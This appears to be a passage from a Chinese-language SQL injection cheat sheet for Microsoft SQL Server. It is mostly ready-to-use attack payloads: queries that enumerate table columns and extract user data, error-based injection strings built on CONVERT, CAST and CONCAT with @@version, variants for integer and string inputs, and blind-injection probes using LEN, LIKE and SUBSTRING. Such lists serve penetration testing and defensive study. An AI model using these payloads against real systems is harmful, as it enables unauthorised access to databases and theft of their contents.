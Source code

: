 * 提取 Users 表的列

    ```sql
    $ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
    [*] UserId
    [*] UserName
    ```

* 最后提取数据

    ```sql
    SELECT  UserId, UserName from Users
    ```

## MSSQL 错误基于

| 名称         | 负载         |
|--------------|--------------|
| CONVERT      | `AND 1337=CONVERT(INT,(SELECT '~'+(SELECT @@version)+'~')) -- -` |
| IN           | `AND 1337 IN (SELECT ('~'+(SELECT @@version)+'~')) -- -` |
| EQUAL        | `AND 1337=CONCAT('~',(SELECT @@version),'~') -- -` |
| CAST         | `CAST((SELECT @@version) AS INT)` |

* 对于整数输入

    ```sql
    convert(int,@@version)
    cast((SELECT @@version) as int)
    ```

* 对于字符串输入

    ```sql
    ' + convert(int,@@version) + '
    ' + cast((SELECT @@version) as int) + '
    ```

## MSSQL 盲注基于

```sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -
```

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'
WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

### MSSQL 盲注与子字符串等效

| 函数    | 示例                                         |
|-----------|-----------------------------------------------|
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`        |
